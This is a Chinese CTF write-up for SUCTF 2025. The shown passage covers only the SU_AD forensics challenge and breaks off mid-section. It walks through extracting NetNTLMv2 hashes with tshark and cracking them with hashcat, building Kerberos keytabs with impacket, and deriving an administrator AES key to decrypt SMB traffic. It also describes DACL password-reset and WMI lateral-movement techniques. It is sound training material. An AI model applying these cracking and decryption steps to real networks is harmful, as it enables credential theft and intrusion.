本文记录 SUCTF 2025 的三道题：SU_AD 从域认证与远程执行流量中还原线索，SU_POP 考察 CakePHP 反序列化利用链，SU_DOTNET 则围绕 Mono 环境下的 .NET 反序列化展开。

## SU_AD

这道题围绕域流量取证展开：从 NetNTLMv2 认证恢复用户口令，再解密 Kerberos、SMB 和 WMI 流量。

### SharpADWS

分析 [@whoami](https://whoamianony.top/) 的 SharpADWS 工具在流量中的表现。

相关演讲资料：

[SharpADWS 流量分析参考文章](https://xz.aliyun.com/t/16378)





流量使用 NetNTLMv2 协议认证，可以尝试恢复 `sk` 用户的密码；相关思路可参考 2024 强网杯的「谍影重重」。

```bash
$ tshark -n -r adws-1.pcapng -Y 'ntlmssp.messagetype == 0x00000003' -T fields -e ntlmssp.auth.username -e ntlmssp.auth.domain -e ntlmssp.ntlmv2_response.ntproofstr -e ntlmssp.auth.ntresponse
Warning: program compiled against libxml 212 using older 209
sk      sk.com  0233f3f42302daa392aee9bb52a6887c        0233f3f42302daa392aee9bb52a6887c01010000000000003c313dc4b762db01592cc51070da966d000000000200040053004b00010004004400430004000c0073006b002e0063006f006d0003001200440043002e0073006b002e0063006f006d0005000c0073006b002e0063006f006d00070008003c313dc4b762db0106000400020000000800300030000000000000000100000000200000a6b014bf8a1f09368502041ded7fceb82c8ed41c09c2d199ee04b8421f0b0e9c0a001000000000000000000000000000000000000900160068006f00730074002f0073006b002e0063006f006d000000000000000000
sk      sk.com  3d83dd54cff0f77715b97e7ae985813f        3d83dd54cff0f77715b97e7ae985813f01010000000000002d2c49c4b762db014a8fd14f8291865d000000000200040053004b00010004004400430004000c0073006b002e0063006f006d0003001200440043002e0073006b002e0063006f006d0005000c0073006b002e0063006f006d00070008002d2c49c4b762db0106000400020000000800300030000000000000000100000000200000a6b014bf8a1f09368502041ded7fceb82c8ed41c09c2d199ee04b8421f0b0e9c0a001000000000000000000000000000000000000900160068006f00730074002f0073006b002e0063006f006d000000000000000000
$ tshark -n -r adws-1.pcapng -Y 'ntlmssp.messagetype == 0x00000002'  -T fields -e ntlmssp.ntlmserverchallenge
Warning: program compiled against libxml 212 using older 209
a780092344838bb2
b7325db726cdddbe
$ cat ntlm_hash.txt
sk::sk.com:a780092344838bb2:0233f3f42302daa392aee9bb52a6887c:01010000000000003c313dc4b762db01592cc51070da966d000000000200040053004b00010004004400430004000c0073006b002e0063006f006d0003001200440043002e0073006b002e0063006f006d0005000c0073006b002e0063006f006d00070008003c313dc4b762db0106000400020000000800300030000000000000000100000000200000a6b014bf8a1f09368502041ded7fceb82c8ed41c09c2d199ee04b8421f0b0e9c0a001000000000000000000000000000000000000900160068006f00730074002f0073006b002e0063006f006d000000000000000000
$ hashcat -a 0 -m 5600 D:\Projects\MyCTFProjects\SU_AD\ntlm_hash.txt D:\Tools\Wordlists\rockyou.txt

Eminem01
```

接着制作 keytab，可参考 [Decrypt Kerberos and NTLM with Wireshark](https://archives.pass-the-salt.org/Pass%20the%20SALT/2023/slides/PTS2023-Talk-20-Decrypt_Kerberos_NTLM_with_Wireshark.pdf)。



```python
from struct import unpack, pack
from impacket.structure import Structure
import binascii
import sys

# Keytab structure from http://www.ioplex.com/utilities/keytab.txt
  # keytab {
  #     uint16_t file_format_version;                    /* 0x502 */
  #     keytab_entry entries[*];
  # };

  # keytab_entry {
  #     int32_t size;
  #     uint16_t num_components;    /* sub 1 if version 0x501 */
  #     counted_octet_string realm;
  #     counted_octet_string components[num_components];
  #     uint32_t name_type;   /* not present if version 0x501 */
  #     uint32_t timestamp;
  #     uint8_t vno8;
  #     keyblock key;
  #     uint32_t vno; /* only present if >= 4 bytes left in entry */
  # };

  # counted_octet_string {
  #     uint16_t length;
  #     uint8_t data[length];
  # };

  # keyblock {
  #     uint16_t type;
  #     counted_octet_string;
  # };

class KeyTab(Structure):
    structure = (
        ('file_format_version','H=517'),
        ('keytab_entry', ':')
    )
    def fromString(self, data):
        self.entries = []
        Structure.fromString(self, data)
        data = self['keytab_entry']
        while len(data) != 0:
            ktentry = KeyTabEntry(data)

            data = data[len(ktentry.getData()):]
            self.entries.append(ktentry)

    def getData(self):
        self['keytab_entry'] = b''.join([entry.getData() for entry in self.entries])
        data = Structure.getData(self)
        return data

class OctetString(Structure):
    structure = (
        ('len', '>H-value'),
        ('value', ':')
    )

class KeyTabContentRest(Structure):
    structure = (
        ('name_type', '>I=1'),
        ('timestamp', '>I=0'),
        ('vno8', 'B=2'),
        ('keytype', '>H'),
        ('keylen', '>H-key'),
        ('key', ':')
    )

class KeyTabContent(Structure):
    structure = (
        ('num_components', '>h'),
        ('realmlen', '>h-realm'),
        ('realm', ':'),
        ('components', ':'),
        ('restdata',':')
    )
    def fromString(self, data):
        self.components = []
        Structure.fromString(self, data)
        data = self['components']
        for i in range(self['num_components']):
            ktentry = OctetString(data)

            data = data[ktentry['len']+2:]
            self.components.append(ktentry)
        self.restfields = KeyTabContentRest(data)

    def getData(self):
        self['num_components'] = len(self.components)
        # We modify the data field to be able to use the
        # parent class parsing
        self['components'] = b''.join([component.getData() for component in self.components])
        self['restdata'] = self.restfields.getData()
        data = Structure.getData(self)
        return data

class KeyTabEntry(Structure):
    structure = (
        ('size','>I-content'),
        ('content',':', KeyTabContent)
    )

# Add your own keys here!
# Keys are tuples in the form (keytype, 'hexencodedkey')
# Common keytypes for Windows:
# 23: RC4
# 18: AES-256
# 17: AES-128
# Wireshark takes any number of keys in the keytab, so feel free to add
# krbtgt keys, service keys, trust keys etc
keys = [
   (23, '97b536419f4e41689f8d4f45523597a2'),
]

nkt = KeyTab()
nkt.entries = []

for key in keys:
    ktcr = KeyTabContentRest()
    ktcr['keytype'] = key[0]
    ktcr['key'] = binascii.unhexlify(key[1])
    nktcontent = KeyTabContent()
    nktcontent.restfields = ktcr
    # The realm here doesn't matter for wireshark but does of course for a real keytab
    nktcontent['realm'] = b'sequel.htb'.upper()
    krbtgt = OctetString()
    krbtgt['value'] = 'krbtgt'
    nktcontent.components = [krbtgt]
    nktentry = KeyTabEntry()
    nktentry['content'] = nktcontent
    nkt.entries.append(nktentry)

data = nkt.getData()
if len(sys.argv) < 2:
    print('Usage: keytab.py <outputfile>')
    print('Keys should be written to the source manually')
else:
    with open(sys.argv[1], 'wb') as outfile:
        outfile.write(data)
```



这是一次利用 DACL 权限强制修改密码的操作，可参考 [ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)。



参考 bloodyAD 的实现，本质上是修改 `unicodePwd` 属性的值。

需要说明的是：

SharpADWS 项目本身没有这个强制改密操作，此处是我手动实现的。



至此获得 `administrator` 密码 `1202)78M5CcE=+!2`。



### Psexec-kerbero

Impacket 我只能说伟大，无需多言！

这里的 PsExec 脚本产生的 SMB 流量通过 Kerberos 认证。有关 Kerberos 与 NTLM 在 SMB 3 中的区别，可以参考 [Microsoft 的 SMB 签名与加密密钥说明](https://learn.microsoft.com/en-us/archive/blogs/openspecification/smb-2-and-smb-3-security-in-windows-10-the-anatomy-of-signing-and-cryptographic-keys)。



继续制作 keytab。下面的脚本生成 `administrator` 用户的 AES-256 密钥，主要参考 [Impacket 的 Kerberos 实现](https://github.com/fortra/impacket/blob/bfa7b939f8af47d4205531eddf0d5696be655d88/impacket/krb5/kerberosv5.py#L260)。

```python
import random

from impacket.krb5.crypto import _enctype_table

# Our random number generator
try:
    rand = random.SystemRandom()
except NotImplementedError:
    rand = random
    pass

if __name__ == '__main__':
    enctype = 18
    cipher = _enctype_table[enctype]
    key = cipher.string_to_key('1202)78M5CcE=+!2', b'SK.COMAdministrator', None)
    print(key.contents.hex())
```





此时可以看到 `ServiceSessionKey`，但 Wireshark 无法自动解密这里的 Kerberos 认证 SMB 流量，需要手动添加密钥。









### wmiexec-Pro

接下来分析 wmiexec-Pro 产生的横向移动流量。

从流量可以看到，它通过 WMI 事件订阅远程执行 VBS 脚本；下图中的脚本尚未混淆。

